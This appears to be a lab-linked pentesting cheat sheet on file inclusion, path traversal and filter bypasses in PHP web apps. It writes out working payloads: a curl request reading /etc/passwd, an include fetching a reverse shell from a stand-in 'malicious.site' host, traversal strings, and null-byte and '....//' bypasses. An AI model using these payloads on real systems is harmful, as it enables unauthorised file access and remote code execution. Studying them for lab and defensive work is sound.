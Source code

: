 # Files/Paths exploits

[![fileinc](../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)

<div class="row row-cols-md-2"><div>

Warning ⚠️. You should use tools such as BurpSuite or `curl` to craft your payload and test if a form is vulnerable. You shouldn't trust that if you enter the path `/etc/passwd`, then this will be value send to the server, some magic might happen in your browser, such as values being encoded or stuff like that.

Another advantage is that you will bypass JavaScript filters!
</div><div>

* See [BurpSuite](/cyber/exploitation/web/burpsuite/index.md) (the repeater being appropriate)
* or using `curl`

```bash
# POST FORM
$ curl URL/vulnerable.php -d 'file=/etc/passwd' -H 'Content-Type: application/x-www-form-urlencoded'
```
</div></div>

<hr class="sep-both">

## File inclusion

<div class="row row-cols-md-2"><div>

Files inclusion refer to websites that are importing <small>(`import/require` in PHP)</small> a file using the user input. For instance: `http://malicious.site/?lang=FR` that is doing a include using `$_GET["lang"]`.

If there is an include with no filtering, we can enter a path 

```php
include "lang/$_GET[lang].php"
```
</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php
// you uploaded a reverse shell (a fake PNG)
// as your avatar (avatar.png), then
include "lang/../uploads/avatar.png"
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php
// allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div></div>

<hr class="sep-both">

## Path/directory traversal

<div class="row row-cols-md-2"><div>

This is an attack where a hacker will manage to access files/folders that were not supposed to be available for users by exploiting the application. 

In PHP for instance, developers may be use `file_get_contents(URL)` to download an avatar for instance given a URL. The problem is that this kind of function may be used to access a local file. If the file is displayed, or stored somewhere where you can read it such as in `/uploads`, then you may be able to 

* test if a port is open
* access private files such as `/etc/passwd` or `windows/win.ini`
* ...
</div><div>

For instance, a URL such as `http://example.com/image-preview.php?url=...` that is supposed to display an image given a URL, may be vulnerable to path traversal.

You can use the **dot-dot-slash attack**, and give an URL such as `../../../../../etc/passwd`. Note that `/../` is `/`, so if you add more `../` than needed, it's OK.
</div></div>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-md-2 mt-4"><div>

* If there is a function removing `../`, then you can craft a payload that will only work as expected once the input was filtered.

```
Input: ....//
Apply Filter: remove ../
Output: ../
```
</div><div>

* **PHP < 5.3.4**: if there was a constraint of a specific extension, you could use the **Null Byte** `%00` which indicates the end of a string.

```php
# bypass filter .md only
file=xxx.php%00.md
```

```php
include "xxx.cgi%00.php" // include xxx.cgi
```
</div></div>